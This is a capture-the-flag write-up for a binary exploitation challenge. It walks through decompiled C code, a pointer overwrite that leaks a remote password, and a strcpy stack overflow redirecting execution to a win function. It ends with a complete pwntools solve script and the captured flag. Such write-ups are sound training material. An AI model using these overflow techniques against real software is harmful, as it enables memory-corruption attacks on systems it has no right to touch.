



# Skiddyana Pwnz and the Loom of Fate

## Problem

<details>

<summary>Description</summary>

Enter an ancient place, contrived beyond reason, and alter the fate of this world.

_<mark style="color:blue;">**nc**</mark> 0.cloud.chals.io 33616_

</details>

## Solution

### Analysis

Here's the decompile main code from ghidra, some parts that are deemed unnecessary or irrelevant are removed.

<details>

<summary><em><mark style="color:green;"><strong>Main()</strong></mark></em></summary>

```c

void main(void)

{
  int check;
  size_t len;
  char buffer [32];
  undefined dest [516];
  char choice [8];
  int _choice;
  char *password;
  char *src;
  
  password = "thisisnotthepassword";
  src = "Drink your ovaltine";
  putchar(10);
  while( true ) {
    while( true ) {
      while( true ) {
        while( true ) {
          printf(
                "\nChoose your next move:\n\n1) Enter the room of the loom\n2) Read the wall of prop hecy\n3) Enter the room of the fates\n4) leave\n\n> "
                );
          fgets(choice,8,stdin);
          _choice = atoi(choice);
          if (_choice != 1) break;
          src = (char *)loomRoom(src,dest);
        }
        if (_choice != 2) break;
        printf("%s",src);
        putchar(10);
      }
      if (_choice != 3) break;
      printf("\n\nSpeak the unpronouncable phrase to pass to the room of fates : \n\n> ");
      fgets(buffer,0x1a,stdin);
      len = strlen(buffer);
      buffer[len - 1] = '\0';
      check = strcmp(buffer,password);
      if (check == 0) {
        fatesRoom(src);
      }
      else {
        puts("\nThe door does not open, the voice is silent.");
      }
    }
    if (_choice == 4) break;
    puts("\nYou get confused and try to walk in a direction that doesn\'t exist. It doesn\'t work.")
    ;
  }
  exit(0);
}


```

</details>

The program simply loop through and provide three functionalities. The second option is simply going to print what ever the <mark style="color:green;">**src**</mark> is pointing to. For the other two we will take a look further below.

<details>

<summary><em><mark style="color:green;"><strong>loomRoom()</strong></mark></em></summary>

```c
char * loomRoom(char *src,char *dest){
  size_t len;
  undefined8 buffer[32];
  char choice [8];
  int _choice;
  char *_src;
  
  _src = src;
  printf("You enter the room of the loom, and see the loom of fate before you. You can etch a prophec y into the futre, or leave the future alone.\n1) Prophesize\n2) Leave\n\n> ");
  fgets(choice,8,stdin);
  _choice = atoi(choice);
  if (_choice == 1) {
    fgets((char *)&buffer,286,stdin);
    len = strlen((char *)&buffer);
    if (len < 0x101) {
      _src = dest;
      strcpy(dest,(char *)&buffer);
    }
    else {
      puts("\nWhoa whoa, slow down, that\'s too much prophecy. Life needs some mystery.");
    }
  }
  return _src;
```

</details>

This function will be triggered if we pick the first option. It provide us with the ability to change the content of <mark style="color:green;">**src**</mark>  as long we satisfy the content is less than 256. If not then it will simply retain whatever <mark style="color:green;">**src**</mark> was pointing without changing it.&#x20;

<details>

<summary><em><mark style="color:green;"><strong>fatesRoom()</strong></mark></em></summary>

<pre class="language-c"><code class="lang-c">void <a data-footnote-ref href="#user-content-fn-1">fatesRoom</a>(char *src){
  undefined8 dest[16];
  char choice [8];
  int _choice;

  printf("\n1) Yes\n2) No\n\n> ");
  fflush(stdin);
  fgets(choice,8,stdin);
  _choice = atoi(choice);
  if (_choice == 1) {
    strcpy((char *)&#x26;dest,src);
  }
  else {
    puts("\nYou leave the room of the fates, this reality intact.");
  }
  return;
</code></pre>

</details>

This function will be triggered if we pick the third option. It will only move the data pointed by <mark style="color:green;">**src**</mark> to its local variable. Here lies the main vulnerability, because our buffer that is being pointed by <mark style="color:green;">**src**</mark> has the potential to copy the amount that will exceeds the limit of <mark style="color:green;">**dest**</mark> and overwriting the <mark style="color:red;">**RIP**</mark>. Luckily there's a function call <mark style="color:green;">**theVoid()**</mark> that acts as the win function. However in order for the function to executes, there's a check to a password that needs to be passed beforehand.

### Exploitation

Although the password is hardcoded and we already see it in the main function, the remote server seem to contain a password that is different from that was given to us. So we need to leak the password on the remote server.&#x20;

To leak the password we will use the 2nd option which prints anything as a string that is being pointer by <mark style="color:green;">**src**</mark>.  So we need to control whatever <mark style="color:green;">**src**</mark> is pointing, to achieve this we will take a look at the <mark style="color:green;">**loomRoom()**</mark> once more...

Notice even though it checks the length of our buffer to be less than 256, we are still able to write 286 bytes, enough to overwrite the <mark style="color:green;">**src**</mark>. Since <mark style="color:red;">PIE</mark> is not enabled, the address of the password is hardcoded and we can overwrite <mark style="color:green;">**src**</mark> with the password address and call the option to print it.


<figure><figcaption><p>leaking the password locally</p></figcaption></figure>

<figure><figcaption><p>leaking the password remotely</p></figcaption></figure>

Next we will simply abuse the <mark style="color:green;">**strcpy()**</mark> to trigger a buffer overflow and change the code execution to call the win function.

So, to summary here's what our exploit should do:

1. First, corrupt the <mark style="color:green;">**src**</mark> to point to the password address
2. call the print functionality to leak the password
3. prepare our payload with <mark style="color:green;">**loomRoom()**</mark>
4. trigger buffer overflow with <mark style="color:green;">**fatesRoom()**</mark>

<details>

<summary><em><mark style="color:green;">Solve Script</mark></em></summary>


```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './loom'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host, port = '0.cloud.chals.io', 33616

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *0x401674
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
io = initialize()

# corrupting ptr memory at [rbp - 0x8]
offset = 0x118 # fgets at [rbp - 0x120]
payload = flat({
    offset: [
        0x40232a, # password addr
    ]
})

io.sendlineafter(b'move:', b'1')
io.sendlineafter(b'Prophesize', b'1')
io.sendline(payload)

# leaking password (%s prints a (char *) which we just corrupted)
io.sendlineafter(b'move:', b'2')
io.recvuntil(b'ancient :')
io.recvlines(2)
password = io.recvline().strip() # QjVHST7M11cY7Ws6mXU1

# payload to ret2win
offset = 152
payload = flat({
    offset: [
        elf.sym['theVoid']
    ]
})

# sending payload
io.sendlineafter(b'move:', b'1')
io.sendlineafter(b'Prophesize', b'1')
io.sendline(payload)

# corrupting rip with strcpy()
io.sendlineafter(b'move:', b'3')
io.sendlineafter(b'pass', password)
io.sendlineafter(b'seek?', b'1')

io.interactive()
```


</details>

<figure><figcaption><p>Final exploit</p></figcaption></figure>

## Flag

> _**flag{d0nt\_f0rg3t\_y0ur\_h4t}**_


[^1]: 
